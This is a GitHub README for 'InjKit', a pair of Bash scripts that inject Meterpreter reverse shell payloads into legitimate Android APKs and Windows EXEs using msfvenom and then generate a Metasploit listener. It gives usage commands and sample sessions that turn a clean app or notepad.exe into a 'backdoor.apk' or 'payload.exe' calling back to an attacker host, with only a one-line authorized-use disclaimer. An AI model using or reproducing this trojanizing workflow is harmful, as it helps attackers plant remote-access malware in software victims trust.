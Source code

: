 # InjKit

**Payload Injector Toolkit (APK & EXE)**

InjKit is a lightweight and interactive Bash-based toolkit for injecting **Meterpreter reverse shell payloads** into clean Android **APK** files or Windows **EXE** binaries using `msfvenom`.

It consists of **two scripts**:

- `apk_injector.sh` for injecting payloads into APK files (Android)
- `exe_injector.sh` for injecting payloads into EXE files (Windows)

Both scripts are designed to be simple, interactive, and efficient, and automatically generate a matching **Metasploit listener resource script (`listener.r`)** to help you catch the reverse shell with ease.

---

## 📁 Included Scripts

### 1. `apk_injector.sh` — Android APK Injector

Injects a reverse shell payload into a clean APK file using Metasploit’s `msfvenom`.

#### 🔧 Features:

- Simple interactive interface
- Verifies APK file path before injection
- Detects payload settings (LHOST, LPORT)
- Generates a new APK file with embedded payload
- Automatically creates a **Metasploit listener script (`listener.r`)**

---

### 2. `exe_injector.sh` — Windows EXE Injector

Injects a reverse shell payload into a clean Windows EXE file using Metasploit’s `msfvenom`.

#### 🔧 Features:

- Interactive prompts for LHOST, LPORT, and EXE path
- Automatically detects EXE architecture (`x86` or `x64`)
- Selects appropriate payload based on architecture
- Generates a new EXE file with embedded payload
- Automatically creates a **Metasploit listener script (`listener.r`)**

---

#### 🚀 Example Usage:

```bash
chmod +x apk_injector.sh
./apk_injector.sh

🖥️ Sample Terminal Interaction:

===============================
        APK Payload Injector   
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 4444
Enter the path to a clean APK file: /root/app.apk
Enter the output file name (e.g., evil.apk): backdoor.apk

[*] Injecting payload into /root/app.apk...
[+] Payload injected successfully! Saved as: backdoor.apk
[+] Metasploit listener script saved as: listener.r
[*] You can run it using: msfconsole -r listener.r


---

2. exe_injector.sh — Windows EXE Injector

Injects a reverse shell payload into a clean EXE file using Metasploit’s msfvenom.

---

🚀 Example Usage:

chmod +x exe_injector.sh
./exe_injector.sh

🖥️ Sample Terminal Interaction:

===============================
      EXE Payload Injector     
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 5555
Enter the path to a clean EXE file (e.g., notepad.exe): /root/notepad.exe
Enter the output file name (e.g., evil.exe): payload.exe

=========================================
✅ Architecture detected: x64
=========================================

[*] Injecting payload into /root/notepad.exe...
[+] Payload injected successfully! Saved as: payload.exe
[+] Metasploit listener script saved as: listener.r
[*] You can run it using: msfconsole -r listener.r


---

🎯 Listener Script (listener.r)

After each successful payload injection, a file named listener.r is generated. This file contains the required Metasploit commands to handle the reverse connection.

🔁 How to use it:

msfconsole -r listener.r


---

⚠️ Notes

These tools depend on msfvenom, which is part of the Metasploit Framework.

Ensure Metasploit is installed and that msfvenom is accessible via terminal.

This tool is for educational and authorized penetration testing purposes only.



---

💬 Feedback

Feel free to submit issues, improvements, or suggestions.
Made with ❤️ for learning, red teaming, and ethical hacking.


---




